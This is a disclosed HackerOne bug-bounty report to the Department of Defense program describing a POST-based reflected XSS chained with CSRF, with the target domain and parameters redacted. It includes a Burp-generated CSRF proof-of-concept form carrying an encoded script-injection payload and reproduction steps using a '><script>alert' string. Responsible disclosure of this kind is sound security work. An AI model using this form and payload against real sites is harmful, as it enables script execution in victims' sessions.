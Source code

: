 # POST based RXSS on https://███████/ via ███ parameter

## Report Details
- **Report ID**: 998935
- **URL**: https://hackerone.com/reports/998935
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-10-05T22:23:35.783Z
- **Disclosed**: 2021-10-13T22:13:11.341Z

## Reporter
- **Username**: nagli
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Good Night DoD team,

##Summary:
I have discovered that on the following domain https://██████████/███████ there is Post-Based reflected XSS vulnerability which i can trigger with CSRF (and Clickjacking) due to unsanitized input inside the ███parameter

██████████

##Description
The vulnerable path is: https://███████/███

CSRF html code for you to reproduce:
```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://███████/█████████" method="POST">
      <input type="hidden" name="████████" />
      <input type="hidden" name="███" />
      <input type="hidden" name="█████████" />
      <input type="hidden" name="██████████" value="&quot;&gt;&lt;script&gt;alert&#40;document&#46;domain&#41;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

##Steps To Reproduce (As an attacker):
1. Navigate to https://█████████/
2. Enter arbitrary text on the field and capture the request
3. Capture the request on burp, change the payload on the █████████ field to "><script>alert("XSS by nagli")></script>
4. Craft a CSRF PoC and an alert will pop upon clicking. :-)


PoC Video:

██████

##Best Regards,
nagli

## Impact

Attacker can execute JS code on the Victim Behalf.

## Attachments
No attachments
